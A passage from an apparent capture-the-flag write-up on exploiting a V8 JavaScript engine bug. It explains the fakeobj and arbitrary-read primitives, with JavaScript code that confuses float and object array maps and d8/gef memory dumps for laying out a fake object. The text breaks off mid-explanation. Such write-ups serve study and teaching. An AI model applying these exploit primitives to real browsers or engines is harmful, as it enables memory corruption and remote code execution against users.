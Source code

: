 

#### fakeobj

fakeobj is another exploit primitive that is the inverse of addrof. If
addrof lets me find out the address of an object, fakeobj lets let
create an object anywhere in memory and then read from and write to it.
I'll set the address into place while `arr` is a float array, and then
switch it to an object array. Now the first half of the double I wrote
will be handled as a compressed pointer, so I can get that object and
return it. I'll also set `arr` back to a float array before returning.



    function fakeobj(addr) {
        arr[0] = itof(addr);
        arr.SetLastElement(itof(obj_array_map));
        let fake = arr[0];
        arr.SetLastElement(itof(float_array_map));
        return fake;
    }



#### arbread

With these two primitives, I can now create an arbitrary read function,
arbread. I'll start by creating another floats array, but this time, the
first element will be the float array map (and properties). I can look
at the memory involved here (I've labeled the memory in that last dump):



    d8> var arr2 = [itof(float_array_map),1.1, 2.2, 3.3];
    undefined
    d8> %DebugPrint(arr2)
    0x08750808692d <JSArray[4]>
    [4.73859563718219e-270, 1.1, 2.2, 3.3]
    d8> ^C
    Thread 1 "d8" received signal SIGINT, Interrupt.
    __GI___libc_read (nbytes=0x400, buf=0x55be0d8e3eb0, fd=0x0) at ../sysdeps/unix/sysv/linux/read.c:26
    26      ../sysdeps/unix/sysv/linux/read.c: No such file or directory.
    gef➤  x/16xw 0x08750808692d-1-0x30
    0x875080868fc:  0x00000000      0xfffffffe      0x08040a3d      0x00000008 <-- ?, ?, FixedArray map, len
    0x8750808690c:  0x08241909      0x080406e9      0x9999999a      0x3ff19999 <-- [0] == map + props, [1] == 1.1
    0x8750808691c:  0x9999999a      0x40019999      0x66666666      0x400a6666 <-- [2] == 2.2, [3] == 3.3
    0x8750808692c:  0x08241909      0x080406e9      0x08086905      0x00000008 <-- JSArray map, prop, elements, length



Next, I'll create a fake object located at `addrof(arr2) - 0x20`. This
lines up with the 0 element, which I've already started setting up to
contain a map and properties. I'll set the 1 element to be eight bytes
before the address I want to read, and the length to 1 (so 2):
